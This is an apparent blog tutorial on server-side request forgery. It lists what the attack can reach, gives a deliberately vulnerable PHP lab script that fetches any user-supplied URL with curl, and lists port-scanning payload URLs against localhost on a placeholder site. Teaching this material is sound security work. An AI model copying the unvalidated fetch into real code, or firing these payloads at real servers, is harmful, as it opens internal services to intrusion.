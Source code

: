 # SSRF
> Server Side Request Forgery (SSRF) is simply an attack where the server will make a request (act like a proxy) for the attacker either to a local or to a remote source and then return a response containing the data resulting from the request.

> We can say that the concept of SSRF is the same as using a proxy or VPN where the user will make a request to a certain resource, then the proxy or VPN Server will make a request to that resource, then return the results to the user who made the request.

From SSRF, various things can be done, such as:

- Local/Remote Port Scan
- Local File Read (using file://)
- Sensitive Data Disclosure (Like Server Ip Behind The WAF)
- Interact with internal apps/service/network
- RCE by chaining services on internal network
- Read Metadata Cloud (AWS, Azure, Google Cloud, Digital Ocean, etc)
- Reflected XSS/CSRF

## Lab Setup

> For the use of the lab in this blog post, only use the simple script below (of course maybe the application in Real World is not as simple as this) and will be deployed on Digital Ocean.
```php
<?php
    $url = $_GET['url'];$curl = curl_init();
    curl_setopt($curl, CURLOPT_URL, $url);
    curl_setopt($curl, CURLOPT_RETURNTRANSFER,1);
    curl_setopt($curl, CURLOPT_TIMEOUT, 5);
    curl_setopt($curl, CURLOPT_CONNECTTIMEOUT, 5);$data = curl_exec ($curl);if(curl_error($curl)){
        echo curl_error($curl);
    }else{
        echo "<pre>" . $data . "</pre>";
    }
    curl_close ($curl);
?>
```
- Curl was chosen as the requestster for this blog post because curl supports various protocols, so it's good for learning purpose.
- requestster is a function or library that we use to fetch/request of the resource from input URL.
<br></br>

## Local/Remote Port Scanning
> The purpose of scanning a port is simply to be able to map running applications/services behind that port so the attacker can identify what applications/services are running on that port. This becomes very important if the attacker wants to interact and then perform querying to internal applications/services.<br></br>
Port scanning can be done using HTTP, HTTPS, GOPHER, or DICT protocols.

Payload:
```url
vulnerablesite.com/file/?url=http://127.0.0.1:22

vulnerablesite.com/file/?url=http://127.0.0.1:port
vulnerablesite.com/file/?url=http://localhost:port
vulnerablesite.com/file/?url=https://127.0.0.1:port
vulnerablesite.com/file/?url=https://localhost:port
vulnerablesite.com/file/?url=http://[::]:port
vulnerablesite.com/file/?url=http://0000::1:port
```
- If there is a Blind SSRF to find out whether the port is open or closed, you can pay attention to Content-length, Response Time, or HTTP Status Code.